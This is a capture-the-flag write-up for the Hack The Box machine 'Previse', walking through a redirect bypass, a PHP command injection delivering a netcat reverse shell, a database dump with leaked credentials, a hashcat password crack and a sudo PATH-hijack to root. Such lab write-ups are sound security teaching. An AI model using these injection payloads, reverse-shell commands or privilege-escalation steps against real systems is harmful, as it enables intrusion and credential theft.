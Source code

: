 ```yaml
---
title: "📦 HTB - Previse"
date: 2021-08-11 13:00:00
summary: ""
tags: ["htb", "writeup"]
author: "0xNinja"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
cover:
    image: box.png
---
```


## TL;DR

Bypass PHP redirect to access restricted page, create low priv web account, get website backup. Audit code and find OS command injection + MySQL creds, get reverse shell and dump database, get password hash and crack it to SSH. Privesc via path injection.

## Footholds

`nmap` gives us only ports `22` and `80`.

We first get this website:

![index](index.png)

Nothing we can deal with here, no SQL injection :(

![login](login_failed.png)

For more info I used `dirsearch` to fuzz the web pages, and it found the following:

```
/accounts.php
/download.php
/files.php
/login.php
/logout.php
/logs.php
/status.php
```

## User

All with `302 Found` HTTP code, with a redirect towards `/login.php`. With that much info we want to get the content of those pages. To do so I used BurpSuite and made a filter to replace `HTTP/1.1 302 Found` with `HTTP/1.1 200` which worked like a charm, but using only `curl` would also work.

We now have access to the previous pages. In order to download a file you must have a valid `PHPSESSID`, so you want to create your own user on `/accounts.php`. Log in again with your fresh accounts and you can access to the `siteBacku.zip` file at `/files.php`.

In this backup we have multiple files, including a nice `config.php` containing MySQL credentials; we will use it in a minute. We also have the code for the whole webapp. One file caught my attention:

```php
// logs.php
[...]

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

[...]
```

Whatever this means, there is no filter at all for this `$_POST['delim']` variable, therefor we can easily inject some command here. As confidant as always I open a netcat listener on my machine, and inject my payload like so:

```sh
curl -X POST previse.htb/logs.php -b 'PHPSESSID=MY_VALID_SESSION' -d 'delim=;nc IP PORT -e /bin/sh'
```

As expected I got my reverse shell 🎉

Let's upgrade from this poor virgin netcat to a chad upgrade:

```sh
# on reverse shell
python -c 'import pty; pty.spawn("/bin/bash")'
(www-data@previse.htb) /var/www/html/: ^Z # Ctrl-Z to background

# on main host
~/ctf/htb/previse
> stty raw -echo; fg

(www-data@previse.htb) /var/www/html/:
```

We now have a better shell, with history and completion. Time to get user!

With the previous info we can directly dump the database:

```sh
mysql -u root -p 'mySQL_p@ssw0rd!:)' -D previse -e 'select * from accounts;'
```

Like so we get a password hash for an another user: `m4lwhere:$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.`, we crack it using `hashcat` because `john` did not worked:

![hash](hash_crack.png)

```sh
hashcat -m 500 user_hash /usr/share/wordlist/rockyou.txt
# wait for about 15 minutes...

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can SSH on the box.

## Root

```
(m4lwhere@previse.htb): sudo -l

(root) /opt/scripts/access_backups.sh
```

```sh
# /opt/scripts/access_backup.sh

gzip -c /var/www/apache_logs.gz ...
```

The path for the `access_backup.sh` is absolute, but not for `gzip` in the script. We can then create our own `gzip` executable which will run with `root` rights:

```sh
# /tmp/gzip
#!/bin/sh
cat /root/root.txt > /tmp/root
```

We change our path with `export PATH="/tmp/:$PATH"` and execute the script with sudo:

`cd /tmp; sudo /opt/scripts/access_logs.sh`

![Rooted](rooted.png)
